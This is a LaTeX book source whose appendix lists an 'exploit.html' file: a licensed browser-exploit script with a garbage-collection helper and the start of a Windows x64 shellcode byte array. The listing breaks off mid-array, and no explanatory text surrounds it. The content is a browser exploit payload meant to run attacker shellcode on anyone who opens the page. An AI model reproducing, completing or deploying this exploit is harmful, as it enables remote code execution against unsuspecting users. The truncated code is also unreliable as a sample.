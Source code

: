 \documentclass[a4paper,twoside,12pt]{book}
\begin{document}
\begin{appendices}
Example of a \lstinline|"exploit.html"| file:

\begin{lstlisting}
<script>
/*
BSD 2-Clause License
Copyright (c) 2021, rajvardhan agarwal
All rights reserved.
Redistribution and use in source and binary forms, with or without
modification, are permitted provided that the following conditions 
are met:
1. Redistributions of source code must retain the above copyright 
   notice, this list of conditions and the following disclaimer.
2. Redistributions in binary form must reproduce the above copyright 
   notice, this list of conditions and the following disclaimer 
   in the documentation and/or other materials provided with the 
   distribution.
THIS SOFTWARE IS PROVIDED BY THE COPYRIGHT HOLDERS AND CONTRIBUTORS 
"AS IS" AND ANY EXPRESS OR IMPLIED WARRANTIES, INCLUDING, BUT NOT 
LIMITED TO, THE IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS 
FOR A PARTICULAR PURPOSE ARE DISCLAIMED. IN NO EVENT SHALL THE 
COPYRIGHT HOLDER OR CONTRIBUTORS BE LIABLE FOR ANY DIRECT, INDIRECT, 
INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES (INCLUDING, 
BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; 
LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER
CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT 
LIABILITY, OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN 
ANY WAY OUT OF THE USE OF THIS SOFTWARE, EVEN IF ADVISED OF THE 
POSSIBILITY OF SUCH DAMAGE.
*/
    function gc() {
        for (var i = 0; i < 0x80000; ++i) {
            var a = new ArrayBuffer();
        }
    }
    let shellcode = [0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 
	0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51,
	0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52, 0x60, 
	0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 
	0x8B, 0x72, 0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 
	0x31, 0xC9, 0x48, 0x31, 0xC0, 0xAC, 0x3C, 0x61, 0x7C, 
	0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 
	0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 
	0x20, 0x8B, 0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 
	0x88, 0x00, 0x00, 0x00, 0x48, 0x85, 0xC0, 0x74, 0x67, 
	0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44, 0x8B, 
	0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 
	0xC9, 0x41, 0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 
	0x31, 0xC9, 0x48, 0x31, 0xC0, 0xAC, 0x41, 0xC1, 0xC9, 
	0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1, 0x4C, 
	0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 
	0x58, 0x44, 0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 
	0x41, 0x8B, 0x0C, 0x48, 0x44, 0x8B, 0x40, 0x1C, 0x49,

\end{lstlisting}
\end{appendices}
\end{document}
